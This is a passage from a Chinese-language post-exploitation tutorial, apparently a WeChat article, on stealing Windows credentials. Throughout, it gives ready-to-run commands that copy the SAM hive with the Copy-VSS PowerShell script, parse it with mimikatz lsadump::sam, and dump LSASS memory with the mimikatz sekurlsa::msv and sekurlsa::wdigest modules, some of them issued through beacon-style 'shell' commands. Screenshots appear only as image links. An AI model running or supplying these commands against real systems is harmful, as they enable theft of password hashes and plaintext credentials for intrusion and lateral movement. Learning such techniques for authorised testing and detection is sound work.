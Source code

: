 **注意：**

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MzEvpcxtP8rw37KZwiaibcYlGgUaOicjO0pGXMJpSYOr4Kg8fzIkGJ07sw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**方法二：使用Copy-VSS powershell脚本**

- 
- 

```
命令：powershell-import Copy-VSS.ps1和powershell Copy-VSS
```

**![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MfKYqAibWvECdfndN1hYiaLlBd2QO0ibBQR5G7lgZkLlPibYK8pXS3wMN3A/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

**![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2M0Px2LTzfBVweMruEsY3PtECOSA1SWLn7ZXxxbN6YM1gxJSmcEOyVGQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MpziaxBrYFFRxY1BqUZPo8yESTLEKxZUa4yYic9yIUOsRK1segglWEIRw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

(2) 使用mimikatz工具读取导出的SAM文件：



- 
- 

```
命令：mimikatz.exe和lsadump::sam /sam:sam.hive /system:system.hive
```

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MQZDQ1wEuuaSwrvMbW4Z41Y6t3MeM7pP0boBIHIE5C8yw0cw35pRQhw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

4

**在线读取Lsass.exe进程中的密码：**

使用mimikatz工具中四个模块读取Lsass进程中的密码，

(1) **sekurlsa::msv模块：**

- 
- 

```
命令：shell mimikatz.exe "privilege::debug" "sekurlsa::msv" exit
```

**![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2M0UPkjpY97bibSCdpqafGroJkCPLRib9DUQGiaB86icUqY918SslulcS5Wg/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

**(2) \**sekurlsa::wdigest模块：\****

- 
- 

```
命令：shell mimikatz.exe "privilege::debug" "sekurlsa::wdigest" exit
```

**![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2Mwia4SJpcdBuAv9XgmAMS7YMGsnbwicB5gxm5dM5sJwz9Tv670WTPiahWQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

